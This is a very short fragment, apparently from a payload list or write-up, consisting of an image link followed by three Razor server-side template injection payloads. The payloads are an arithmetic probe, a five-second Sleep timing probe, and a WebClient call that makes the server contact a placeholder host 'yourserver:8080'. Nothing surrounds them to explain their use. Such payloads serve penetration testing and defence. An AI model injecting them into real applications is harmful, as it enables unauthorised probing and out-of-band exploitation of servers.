 `@((8*8).ToString())`
`@{System.Threading.Thread.Sleep(5000);}`
`@{new System.Net.WebClient().DownloadString("http://yourserver:8080/");}`
